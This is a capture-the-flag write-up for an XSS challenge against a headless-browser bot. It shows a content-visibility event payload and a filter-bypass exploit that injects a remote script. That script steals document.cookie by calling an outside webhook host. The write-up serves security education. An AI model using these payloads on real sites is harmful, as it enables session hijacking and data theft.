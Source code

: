 **PoC**

The following payload triggers an XSS by leveraging the `oncontentvisibilityautostatechange` event and `content-visibility: auto` CSS property:

```python
https://hackthebot2-512f165761b6a6e8.deploy.phreaks.fr/?q=%3Cinput%20oncontentvisibilityautostatechange=confirm(1)%20style=content-visibility:auto%20type=hiddle%20%3E
```

### **Exploit**

Constructing an exploit is challenging due to the imposed restrictions. The bot sets the cookie only after visiting the page, preventing direct fetching. We must wait and check periodically if the cookie is set. However, we cannot use `setInterval` or `setTimeout` (due to uppercase characters), nor can we use a busy-wait loop (`while`), as it would block `page.goto` from completing.

```jsx
const page = await browser.newPage();
await page.goto(url);

if (url.startsWith("http://localhost/")) {
    await page.setCookie(cookie);
}
```

**Bypassing the restriction**

To bypass these limitations, we can first load an external JavaScript file into the context. Since the transformation process does not alter the functions inside the external script, we can use restricted functions like `setTimeout`.

```python
# Raw paylaod
document.write(`<link rel=stylesheet href='//helpful-autumn-15.webhook.cool/?${document.cookie}'>`);

# Cannot use script, src, http, etc.
let temp='scriptxxsrc='.replace('xx', ' ');let temp2='scriptxx'.replace('xx', '');document.write(`<${temp}//idontknow.blackhat.day/exploit.js></${temp2}>`);
```

```python
# Initial payload:
<input oncontentvisibilityautostatechange="let temp='scriptxxsrc='.replace('xx', ' ');let temp2='scriptxx'.replace('xx', '');document.write(`<${temp}//idontknow.blackhat.day/exploit.js></${temp2}>`);`);" style=content-visibility:auto type=hiddle >

# Scripe file:
setTimeout(() => {
  fetch(`https://helpful-autumn-15.webhook.cool/?${document.cookie}`);
}, 5000);

http://localhost/?q=%3Cinput%20oncontentvisibilityautostatechange=%22let%20temp=%27scriptxxxxxxsrc=%27.replace(%27xxxxxx%27,%20%27%20%27);let%20temp2=%27scriptxxxxxx%27.replace(%27xxxxxx%27,%20%27%27);document.write(`%3C${temp}//idontknow.blackhat.day/exploit.js%3E%3C/${temp2}%3E`);%22%20style=content-visibility:auto%20type=hiddle%20%3E
```
